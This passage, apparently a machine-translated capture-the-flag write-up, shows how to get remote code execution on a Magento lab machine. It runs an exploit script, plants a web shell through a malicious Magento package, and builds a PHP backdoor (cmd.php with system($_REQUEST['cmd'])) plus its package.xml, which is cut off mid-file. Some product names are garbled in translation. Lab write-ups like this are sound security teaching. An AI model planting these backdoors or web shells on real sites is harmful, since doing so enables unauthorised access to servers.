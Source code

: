 `mechanize`是一个可编写脚本的浏览器，它抱怨没有带有密码字段的登录表单。这是因为它试图登录网站的底部。我将再次运行它，这次是管理员登录页面：

    root@kali# python magento_rce.py 'http://10.10.10.140/index.php/admin' "uname -a"
    Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP Wed Apr 3 09:00:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
    

### RCE #2 - 洋红色包装

当盒子发布时，有第二种方法可以通过上传Magento包来获得RCE。似乎此方法已在框的当前实例中修补，因为不再存在。无论如何，我将展示我是如何做到的，但你今天将无法复制这一部分。`/download`

#### 从吉特哈布

[此 GitHub](https://github.com/lavalamp-/LavaMagentoBD) 具有恶意马真图包的模板。我将下载lavalamp\_magento\_bd.tgz，并通过 http://10.10.10.140/downloader/ 上传：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2F1557662974804.png) 

现在我可以使用它安装的网页外壳：

    root@kali# curl -d 'c=id' http://10.10.10.140/index.php/lavalamp/index
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

#### 白手起家

[这篇文章](https://dustri.org/b/writing-a-simple-extensionbackdoor-for-magento.html)提供了一个很好的演练，用于创建恶意的Magento包。我将按以下结构创建两个文件：

    root@kali# tree .
    .
    ├── errors
    │   └── cmd.php
    └── package.xml
    
    1 directory, 2 files
    

`cmd.php`:

    <?php system($_REQUEST['cmd']); ?>
    

`package.xml`:

    <?xml version="1.0"?>
    <package>
    <name>backdoor</name>
    <version>1.3.3.7</version>
    <stability>devel</stability>
    <licence>backdoor</licence>
    <channel>community</channel>
    <extends/>
    <summary>Backdoor for magento</summary>
    <description>Backdoor for magento</description>
    <notes>backdoor</notes>
    <authors>
        <author>
            <name>jvoisin</name>
            <user>jvoisin</user>
            <email>julien.voisin@dustri.org</email>
        </author>
    </authors>
    <date>2015-08-17</date>
    <time>13:47:49</time>
    <contents>
        <target name="mage">
            <dir>
                <dir name="errors">